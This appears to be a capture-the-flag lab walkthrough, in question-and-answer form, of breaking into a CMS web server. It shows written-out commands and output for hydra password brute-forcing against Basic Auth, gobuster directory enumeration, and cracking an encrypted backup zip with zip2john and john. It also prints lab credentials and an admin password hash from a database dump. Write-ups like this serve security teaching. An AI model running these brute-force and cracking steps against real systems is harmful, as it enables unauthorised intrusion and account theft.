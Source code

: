 What port on this machine not need to be authenticated by user and password?
```
80
```

There is a file on this port that seems to be secret, what is it?
```
secret.txt
```

There is another file which reveals information of the backend, what is it?
```
phpinfo.php
```

When reading the secret file, We find with a conversation that seems contains at least two users and some keywords that can be intersting, what user do you think it is?
```
joker
```

What port on this machine need to be authenticated by Basic Authentication Mechanism?
```
8080
```

At this point we have one user and a url that needs to be aunthenticated, brute force it to get the password, what is that password?
```
hydra -l joker P /usr/share/wordlists/rockyou.txt -s 8080 10.10.225.38 http-get

[8080][http-get] host: 10.10.225.38   login: joker   password: hannah
```

Yeah!! We got the user and password and we see a cms based blog. Now check for directories and files in this port. What directory looks like as admin directory?
```
gobuster dir -U joker -P hannah --url http://10.10.50.115:8080 --wordlist /usr/share/wordlists/dirb/common.txt 

/administrator (Status: 301)
```

We need access to the administration of the site in order to get a shell, there is a backup file, What is this file?
```
backup.zip
```

We have the backup file and now we should look for some information, for example database, configuration files, etc ... But the backup file seems to be encrypted. What is the password?
```
zip2john backup.zip > backup.hash
john backup.hash

hannah
```

Remember that... We need access to the administration of the site... Blah blah blah. In our new discovery we see some files that have compromising information, maybe db? ok what if we do a restoration of the database! Some tables must have something like user_table! What is the super duper user?
```
grep cc1gr_users jooladb.sql | grep user

INSERT INTO `cc1gr_users` VALUES (547,'Super Duper User','admin','admin@example.com','$2y$10$b43UqoH5UpXokj2y9e/8U.LD8T3jEQCuxG2oHzALoJaj9M5unOcbG',0,1,'2019-10-08 12:00:15','2019-10-25 15:20:02','0','{\"admin_style\":\"\",\"admin_language\":\"\",\"language\":\"\",\"editor\":\"\",\"helpsite\":\"\",\"timezone\":\"\"}','0000-00-00 00:00:00',0,'','',0);

admin
```
